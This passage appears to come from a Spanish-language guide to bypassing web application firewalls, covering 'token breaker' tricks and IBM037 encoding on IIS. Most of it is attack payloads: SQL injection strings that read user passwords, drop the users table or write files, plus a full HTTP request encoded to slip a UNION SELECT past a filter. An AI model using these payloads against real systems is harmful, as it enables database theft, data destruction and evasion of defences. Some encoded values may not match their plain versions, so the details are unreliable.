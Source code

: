 Los ataques a tokens intentan romper la lógica de dividir una solicitud en tokens con disyuntores de tokens. Los token-breakers son símbolos que permiten afectar la correspondencia entre un elemento de una cadena y un determinado token. Nuestra solicitud debe seguir siendo válida mientras utilizamos rompedores de tokens.

Estudio de caso: token desconocido para el "tokenizador"

**Nuestra carga útil:**

```bash
?id=‘-sqlite_version() UNION SELECT passwords FROM users --
```

Estudio de caso: contexto desconocido para el analizador (observe el corchete sin contexto)

**Primera carga útil:**

```bash
?id=12);DROP TABLE users --
```

**Segunda carga útil:**

```bash
?id=133) INTO OUTFILE ‘xxx’ --
```

### 15. Técnica de ofuscación en otros formatos.

Muchas aplicaciones web admiten diferentes tipos de codificación y pueden interpretar la codificación. Siempre necesitamos ofuscar la carga útil a un formato que no sea compatible con WAF, pero el servidor puede pasar de contrabando nuestra carga útil.

Caso IIS:

IIS 6, 7.5, 8 y 10 permiten interpretaciones de caracteres IBM037. Envíe los parámetros codificados con la consulta.

**Solicitud original:**

```bash
POST /example.aspx?id7=sometext HTTP/1.1

HOST: target.org

Content-Type: application/x-www-form-urlencoded; charset=utf-8

Content-Length: 27

id2='union all select * from users--
```

**Solicitud ofuscada con codificación de URL:**

```bash
POST /example.aspx?%89%84%F7=%A2%95%94%86%A3%88%89%95%87 HTTP/1.1

HOST: target.org

Content-Type: application/x-www-form-urlencoded; charset=ibm037

Content-Length: 127

%89%84%F2=%7D%A4%95%89%97%95%40%81%93%94%40%A2%85%93%85%84%A3%40%5C%40%86%99%97%94%40%A4%A2%85%99%A2%60%60
```
